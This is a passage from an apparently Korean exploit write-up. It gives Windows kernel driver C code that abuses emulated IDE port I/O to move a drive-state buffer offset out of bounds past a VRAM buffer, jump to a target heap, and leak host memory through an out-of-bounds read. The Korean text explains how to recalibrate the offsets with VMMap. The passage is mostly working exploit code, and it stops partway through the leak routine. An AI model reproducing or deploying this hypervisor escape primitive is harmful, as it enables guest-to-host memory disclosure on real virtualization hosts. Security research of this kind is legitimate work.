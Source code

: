 ```C
    DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Increase DriveStateBufferOffset\n");
    for (int i = 0; i < 0x800000; i+=0x200) {
		__outbyte(0x1f7, 0x30);
    }
	int iter = 0;
    UCHAR data = 0;
    for (int i = 0; i < 20; i++) {
        data = __inbyte(0x1f0);
		DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Data Read from 0x1f0: 0x%x\n", data);
        if (data < 'H') {//Increase 1MB
            iter = 0x100000;//1MB
        }
        else if (data < 'O') {//increase 128KB
            iter = 0x20000;
        }
        else if (data < 'V') {//16KB
            iter = 0x4000;
        }
        else {// data == 'V', Jump to TargetHeap
            iter = 0x5e3e00;//Offset Between VRAM Buffer's end & Target Heap's start address
            break;
        }
        for (int j = 0; j < iter; j += 0x200) {
            __outbyte(0x1f7, 0x30);
        }
    }

    if (data < 'V') {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[!] Increase DriveStateBufferOffset Failed\n");
        return 0;
    }
    DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Jump to Target Heap\n");

	for (int j = 0; j < iter; j += 0x200) {
		__outbyte(0x1f7, 0x30);
	}
    

    return 1;
}
```

읽은 패턴의 데이터에 따라 증가하는 값을 다르게 했고 데이터가 `V`일 때 증가시킬 오프셋은 VRAM 버퍼의 끝과 타겟 힙 주소의 시작의 차이로 설정하면 됩니다. 아까 세팅한 환경은 제가 코드를 작성할 때와 다르기 때문에 VMMap으로 메모리 레이아웃을 다시 분석하고 다른 값으로 설정해주면 됩니다!

### LeakData
OOB Read로 특정 범위의 데이터를 읽어 유저 공간의 버퍼에 씁니다.
```C
void LeakData(ReadInfo info) {
    int from = info.from, to = info.to, cursor = from;
    int* buffer = info.buffer;

    while (!JumptoTargetHeap()) DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Retry\n");
	for (int i = 0; i < from; i += 0x200) __outbyte(0x1f7, 0x30);

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Read Data\n");

    while (cursor < to) {
        for (int i = 0; i < 0x200; i += 4) {
            *buffer = __indword(0x1f0);
            buffer++;
        }
        __outbyte(0x1f7, 0x30);
```